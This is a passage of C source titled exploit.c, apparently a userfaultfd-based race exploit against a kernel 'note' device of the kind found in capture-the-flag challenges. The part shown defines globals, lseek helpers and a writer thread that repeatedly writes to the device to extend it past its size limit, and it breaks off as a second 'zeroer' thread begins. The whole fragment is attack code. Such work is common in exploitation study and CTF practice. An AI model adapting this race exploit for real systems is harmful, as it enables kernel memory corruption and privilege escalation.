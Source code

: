 ```exploit.c
{
  int whoami;
  long uffd;
} thrinfo;
char EMPTYNOTE[PAGE];
// (END globals)

ulong sk_seek_abs(unsigned abs)
{
  assert(fd != 0);
  ulong hoge = lseek(fd, abs, SEEK_SET);
  if (hoge == -1)
  {
    errExit("lseek");
  }
  return hoge;
}

void sk_seek_zero(void)
{
  sk_seek_abs(0);
}

ulong sk_seek_end(void)
{
  assert(fd != 0);
  return lseek(fd, 0, SEEK_END);
}

int SHOULDEND = 0;

#define REPEAT 80

static void *writer(void *arg)
{
  //int whoami = *(int*)arg;
  //printf("[.] writer inited: %d\n", whoami);

  assert(fd != 0);
  ulong cur;
  char buf[PAGE] = {0};
  ulong old = MAX_NOTE_SIZE;
  while (1 == 1)
  {
    cur = sk_seek_end();
    if(cur != old) {
      printf("[+] extended to 0x%lx : %lx\n", cur, cur / MAX_NOTE_SIZE);
      old = cur;
    }
    if (cur > MAX_NOTE_SIZE * REPEAT)
    {
      printf("[SEEK_END] %lx\n", cur);
      puts("!!!!!!!!!!!!!!!!!!!!!!!!!!");
      SHOULDEND = 1;
      return 0;
    }
    int ret = write(fd, buf, MAX_NOTE_SIZE);
  }
  printf("[.] writer finished\n");
}

static void *zeroer(void *arg)
{
```